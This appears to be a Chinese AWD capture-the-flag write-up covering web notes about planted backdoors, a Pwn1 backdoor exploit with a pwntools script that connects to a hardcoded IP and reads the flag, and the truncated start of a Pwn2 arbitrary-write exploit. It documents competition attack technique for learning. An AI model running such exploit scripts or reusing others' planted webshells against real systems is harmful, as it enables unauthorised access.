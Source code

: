 
#### Web总结
比赛过程中我们被中了很多马，当时没有想到利用方式，现在发现可以通过骑马的方式对别人进行攻击，通过流量包发现自己是如何被攻击的。  
对于比赛现场的资料，应及时保存，以备后期的学习。


### Pwn1  

#### 明显的后门  

虽说是超级明显的后门，但是用它起码拿了有500分。。。  

![awd-hack0](..\..\..\..\pics\wp\awd-hack0.png)   
![awd-hack](..\..\..\..\pics\wp\awd-hack.png)   

按 “ 5 ” 进入后门。  

但是由于环境问题，进入/bin/sh 后不可以直接cat flag  

尝试使用   
>cat flag >&0  
/bin/sh  flag  

cat flag >&0 就是把输出的内容重定向到屏幕（貌似cat flag >&2也可以）
成功，两个都可以。

攻击模块：
~~~python
def exp(port):
	p=remote("47.108.30.122",port)
	p.sendlineafter("choice:","5")
	# p.sendlineafter("have fun~\n","/bin/sh flag")
	p.sendlineafter("have fun~\n","cat flag >& 0")
	ans = p.recvuntil("}")
	res = re.findall("flag{(.*)}",ans)
	flag = ("flag{"+res[0]+"}")
	return flag
~~~  

#### 错误流泄露


### Pwn2  

#### 任意写  

附上ex师傅exp  
~~~python
from pwn import *
import os
import struct
import random
import time
import sys
import signal

salt = os.getenv('GDB_SALT') if (os.getenv('GDB_SALT')) else ''

def clear(signum=None, stack=None):
    print('Strip  all debugging information')
    os.system('rm -f /tmp/gdb_symbols{}* /tmp/gdb_pid{}* /tmp/gdb_script{}*'.replace('{}', salt))
    exit(0)

for sig in [signal.SIGINT, signal.SIGHUP, signal.SIGTERM]: 
    signal.signal(sig, clear)
    
# # Create a symbol file for GDB debugging
~~~